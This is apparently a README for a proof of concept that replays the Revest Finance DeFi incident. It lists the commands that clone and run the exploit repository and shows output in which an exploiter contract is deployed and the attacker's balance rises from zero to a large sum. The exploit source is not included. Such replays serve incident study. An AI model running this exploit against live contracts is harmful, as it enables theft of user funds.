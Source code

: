 # Revest Finance Incident PoC

## How to run

Set up the environment variable for $ALCHEMY_KEY

```
$  git clone https://github.com/SupremacyCA/Web3.0-Rekt
$  export $ALCHEMY_KEY = xxxxx
$  cd ./Revest
$  npm install

then 

$  sh run.sh
```

```
$  sh run.sh
Compiled 3 Solidity files successfully
🧛 Exploiter deployed to: 0x4bf010f1b9beDA5450a8dD702ED602A104ff65EE
🥷 The attacker's balance before the attack: 0
🧛 The attacker's balance After the attack: 356388790000026526213611
```

---
